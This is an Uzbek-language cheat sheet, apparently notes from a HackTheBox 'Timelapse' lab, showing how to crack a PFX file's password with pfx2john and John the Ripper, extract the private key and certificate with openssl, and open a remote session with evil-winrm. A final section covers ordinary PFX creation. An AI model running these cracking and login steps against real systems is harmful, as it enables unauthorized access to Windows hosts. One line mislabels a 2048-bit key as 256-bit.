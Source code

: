 **PFX fayl parolini aniqlash?**
PFX faylni tekshirish.
 - **# openssl pkcs12 -info -in mycertificate.pfx**   
1. Hash yaratish.
 - **# pfx2john fayl.pfx > fayl.hash**
2. John the Ripper bilan parolni ochish.
 - **# john fayl.hash --wordlist=/usr/share/wordlists/rockyou.txt --force**
3. Kalit va sertifikatni olish.
   A. Shaxsiy kalitni chiqarish:
    - **# openssl pkcs12 -in fayl.pfx -nocerts -out fayl.key-enc**
    - Enter Import Password:(hash orqali aniqlangan parol (Brute force paroli))  Enter PEM pass phrase(Shaxsiy kalit uchun yangi parol kiritish): Verifying - Enter PEM pass phrase(qayta kiritish):
   B. Sertifikatni chiqarish:
    - **# openssl pkcs12 -in fayl.pfx -clcerts -nokeys -out fayl.crt**
   C. Shaxsiy Kalitni shifrdan yechish (Decrypt):
    - **# openssl rsa -in fayl.key-enc -out fayl.key**
    - yuqorida kiritilgan yangi parol kiritiladi.
4. evil-winrm orqali tizimga ulanish. (evil-winrm — bu Windows Remote Management (WinRM) protokoliga asoslangan vosita bo'lib, Windows tizimlariga masofaviy ulanish uchun ishlatiladi.)
 - **# evil-winrm -i <IP> -k fayl.key -c fayl.crt -S -r timelapse**    

Asosiy parametrlar:
**-i <IP>** – Masofaviy Windows mashinasining IP manzili. (Masalan: 10.10.10.10)  
**-k fayl.key** – Shaxsiy kalit (Private Key) fayli. Bu kalit .pfx fayldan ajratib olingan bo'lishi kerak.  
**-c fayl.crt** – Sertifikat (Certificate) fayli. Bu ham .pfx fayldan chiqarib olingan.  
**-S** – HTTPS orqali ulanish. Bu parametr WinRM xizmatiga xavfsiz (TLS) ulanishni ta'minlaydi.  
**-r timelapse** – Bu parametr ressurs nomini ko'rsatadi. Bu misolda "timelapse" deb nomlangan domen yoki ma'lum bir ulanish konteksti kiritilgan. (Bu CTF topshirig'ida maxsus muhit yoki ulanish nuqtasi bo'lishi mumkin.)    
 - **# evil-winrm -i 10.10.10.10 -k private.key -c certificate.crt -S**  
https://www.hackingarticles.in/timelapse-hackthebox-walkthrough/


**PFX fayl yaratish**
1. OpenSSL o'rnatilganligini tekshirish
 - **# openssl version**
 - Agar o'rnatilmagan bo'lsa (**# sudo apt update && sudo apt install openssl**)
2. Shaxsiy kalit (Private Key) yaratish (256-bitli RSA shaxsiy kalit yaratish)
 - **# openssl genrsa -out private.key 2048**
 -  **private.key** — bu shaxsiy kalit bo'lib, maxfiy saqlanishi kerak.
3.  Sertifikat uchun talab (CSR - Certificate Signing Request) yaratish
 - **# openssl req -new -key private.key -out request.csr**
4. Self-Signed Certificate yaratish.
 - **# openssl x509 -req -days 365 -in request.csr -signkey private.key -out certificate.crt**
5. PFX (PKCS#12) faylini yaratish.
 - **# openssl pkcs12 -export -out mycertificate.pfx -inkey private.key -in certificate.crt**
6. Yaratilgan PFX faylni tekshirish.
 - **# openssl pkcs12 -info -in mycertificate.pfx**   

